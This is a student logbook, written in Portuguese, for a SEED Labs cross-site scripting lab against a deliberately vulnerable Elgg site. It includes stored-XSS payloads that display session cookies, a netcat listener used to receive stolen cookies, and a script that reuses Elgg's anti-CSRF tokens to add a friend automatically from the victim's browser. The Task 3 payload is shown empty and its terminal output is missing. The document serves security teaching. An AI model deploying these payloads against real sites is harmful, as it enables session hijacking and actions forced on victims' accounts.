





# LOGBOOK7 – Cross-Site Scripting Attack Lab (Elgg)

## 1. Introdução

Este relatório descreve o trabalho realizado no SEED Labs — Cross-Site Scripting (XSS) Attack Lab, utilizando a aplicação vulnerável Elgg.

O objetivo do laboratório foi compreender em detalhe ataques Stored XSS, incluindo:
- Injeção de JavaScript malicioso
- Roubo de cookies
- Forja de pedidos HTTP (AJAX)
- Adição automática de amigos
- Manipulação de perfis de outros utilizadores
- Importância dos tokens de segurança `__elgg_token` e `__elgg_ts`

Durante o processo foram encontradas adversidades ao correr o laboratório em macOS com Docker Desktop, que são documentadas e explicadas.

## 2. Setup e Adversidades no macOS

O laboratório foi desenvolvido para Linux com Docker Engine. No macOS, Docker Desktop usa uma VM interna e não expõe a rede `10.9.0.0/24` diretamente ao host.

### Problemas encontrados

1. A aplicação não carregava no endereço:
   ```text
   http://www.seed-server.com
    ```
2. O comando docker ps mostrava o container sem port mapping:
    ```text
    elgg-10.9.0.5   ...   PORTS:
    ```
3.	As entradas do /etc/hosts seguiam o guião (com 10.9.0.5), mas essa rede não é diretamente acessível a partir do macOS.

### Solução aplicada

1.	Alterar o docker-compose.yml para expor a porta 80 do container para o host:
    ```yaml
    ports:
        - "80:80"
    ```
2.	Alterar as entradas em /etc/hosts para apontar para 127.0.0.1:
    ```text
    127.0.0.1 www.seed-server.com
    127.0.0.1 www.example32a.com
    127.0.0.1 www.example32b.com
    127.0.0.1 www.example32c.com
    127.0.0.1 www.example60.com
    127.0.0.1 www.example70.com
    ```
3.	Reiniciar os containers:
    ```bash
    docker-compose down
    docker-compose up -d
    ````


## 3. Task 1 – Stored XSS com Alerta

O objetivo desta task é mostrar um alerta quando o perfil do utilizador é visitado, usando um script armazenado no servidor (Stored XSS).

Código usado:
    ```
    <script>alert('XSS');</script>
    ```

Este código foi colocado no campo Brief Description do perfil . Ao visitar a página de perfil, o JavaScript é executado automaticamente, o que confirma a vulnerabilidade XSS armazenada.




## 4. Task 2 – Mostrar Cookies da Sessão

Nesta task, o objetivo é mostrar os cookies do utilizador através de XSS.

Código injetado:
    ```
    <script>alert(document.cookie);</script>
    ```

Ao visitar o perfil, a vítima vê um alerta com os seus cookies de sessão (por exemplo, o cookie de autenticação do Elgg). Isto demonstra que um atacante pode aceder diretamente a informação sensível guardada no browser.



## 5. Task 3 – Roubar Cookies via XSS

Na Task 3, o objetivo é enviar os cookies da vítima para um servidor controlado pelo atacante. O guião assume que o atacante está no IP `10.9.0.1`, mas isso não é válido em macOS com Docker Desktop.

### Adaptação necessária em macOS

- Em vez de usar `10.9.0.1`, utilizou-se o `127.0.0.1`, que corresponde ao próprio host onde corre o navegador.
- No terminal do atacante, foi aberta uma porta usando `netcat`:

    ```bash
    nc -lknv 5555
    ```
### Código final usado na Task 3
    
   
    <script>
    document.write('');
    </script>
    

Quando a vítima visita o perfil:

- O browser tenta carregar a imagem com URL http://127.0.0.1:5555?c=<cookies>;
- Isto gera um pedido HTTP GET para o servidor do atacante (netcat);
- No terminal:


## 6. Task 4 - Tornar-se Amigo da Vítima

Nesta task, o objetivo é replicar o comportamento de "Add Friend" de forma automática, a partir do browser da vítima, usando XSS.

### Passos seguidos

1. Usar uma conta para aceder ao perfil do Samy
2. Com o HTTP Header Live :
   - Clicar no botão "Add Friend" de forma legítima;
   - Capturar o pedido HTTP correspondente;
   - Identificar:
     - URL da ação: por exemplo, `/action/friends/add?friend=<GUID>`;
     - Parâmetros incluídos (`__elgg_token`, `__elgg_ts`);
3. Escrever JavaScript no campo "About Me" do perfil do Samy que, ao carregar o perfil, emite o mesmo pedido via XMLHttpRequest.



### Código usado 

    <script type="text/javascript">
    window.onload = function () {

    // Obter tokens de segurança fornecidos pelo Elgg
    var ts    = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //URL com GUID do Samy para o adicionar como amigo
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    // Criar e enviar pedido AJAX
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
    </script>



### Papel das variáveis __elgg_token e __elgg_ts
- __elgg_token: É um token anti-CSRF gerado pelo servidor, usado para validar pedidos state-changing (como adicionar amigos, editar perfis, etc.). Garante que o pedido foi originado numa sessão legítima.
- __elgg_ts: É um timestamp associado ao token. Ajuda a limitar a janela temporal em que o token é válido, evitando ataques de replay.

Sem estes valores extraídos do contexto da sessão da vítima, o servidor rejeita o pedido, frequentemente com uma mensagem do tipo:
    ```text
    Action failed: Token mismatch
    ```

## 8. Questão 2 – Em que tipo(s) de XSS se enquadra este ataque?

Neste laboratório são explorados essencialmente:

### Stored XSS (principal)

- O código JavaScript é guardado na base de dados (por exemplo, no campo "About Me" do perfil);
- Sempre que um utilizador visita o perfil infetado, o script é executado no contexto da sessão desse utilizador;
- Isto permite:
  - Roubar cookies,
  - Forjar pedidos HTTP em nome da vítima,
  - Automatizar a adição de amigos,
  - Modificar o perfil de terceiros.

Logo, o ataque enquadra-se claramente em **Stored XSS**.

### DOM-based XSS (secundário, dependendo da implementação do worm)

- Em tarefas mais avançadas (como a Task 6, que envolve worms auto-propagantes), o JavaScript pode manipular diretamente o DOM (por exemplo, usando `document.getElementById(...).innerHTML` para injetar mais código).
- Quando a vulnerabilidade está na forma como o JavaScript lida com o DOM e com dados não confiáveis, podemos também falar em **DOM-based XSS**.

### Reflected XSS

- Não é o foco deste laboratório.
- Reflected XSS normalmente envolve parâmetros na URL que são refletidos numa resposta imediata do servidor (ex.: `?msg=<script>...`).
- No Elgg deste lab, não foi explorado este tipo de ataque.
	


